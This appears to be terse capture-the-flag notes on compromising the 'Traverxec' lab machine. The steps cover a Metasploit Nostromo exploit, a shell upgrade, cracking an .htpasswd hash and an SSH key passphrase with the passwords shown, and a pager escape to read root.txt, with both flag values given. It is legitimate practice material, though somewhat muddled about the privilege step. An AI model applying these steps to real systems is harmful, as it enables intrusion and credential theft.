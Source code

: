 # Traverxec
Nmap Ports:
22
80 <== Nostromo 1.9.6

Metasploit CVE-2019-16278 for port 80 results in www-data shell. 

using python -c 'import pty; pty.spawn("/bin/bash")' gives interactive shell

ran LinEnum using python -m SimpleHTTPServer 8000

In nostromo conf:
 MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html
# LOGS [OPTIONAL]
logpid			logs/nhttpd.pid
# SETUID [RECOMMENDED]
user			www-data
# BASIC AUTHENTICATION [OPTIONAL]
htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd
# ALIASES [OPTIONAL]
/icons			/var/nostromo/icons
# HOMEDIRS [OPTIONAL]
homedirs		/home
homedirs_public		public_www

using this info, went to /home/david/public_www/protected-file-area
creds from .htpasswd cracked with rockyou.txt
Nowonly4me       (david)

using conf info to navigate to http://10.10.10.165/~david/protected-file-area/ and auth with 'david' and 'Nowonly4me' in firefox yeilds ssh keys.

Now running id_rsa though ssh2john, then cracking gives password 'hunter'.

$ ssh david@10.10.10.165 -i id_rsa 
password: hunter

david user.txt = 7db0b48469606a42cec20750d9782f3d

running: 
find . -perm /4000
shows 'less' has SUID


cd to ./bin/less

running
david@traverxec:~/bin$ cat script.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service


opens 'less', 'e' puts it in examine mode:
:e /root/root.txt
root.txt = 9aa36a6d76f785dfd320a478f6e0d906

